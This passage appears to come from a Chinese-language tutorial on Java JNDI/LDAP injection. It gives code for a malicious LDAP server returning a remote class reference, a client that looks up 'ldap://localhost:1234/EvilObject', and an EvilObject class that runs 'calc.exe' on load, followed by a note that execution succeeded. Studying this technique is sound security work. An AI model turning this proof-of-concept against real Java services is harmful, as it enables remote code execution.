 ```java
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0){
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
//LdapClient.java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LdapClient {
    public static void main(String[] args) throws Exception{
        try {
            Context ctx = new InitialContext();
            ctx.lookup("ldap://localhost:1234/EvilObject");
            String data = "This is LDAP Client.";
        }
        catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
//EvilObject.java
public class EvilObject {
    public EvilObject() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

也是执行成功了....

![img](img/8.png)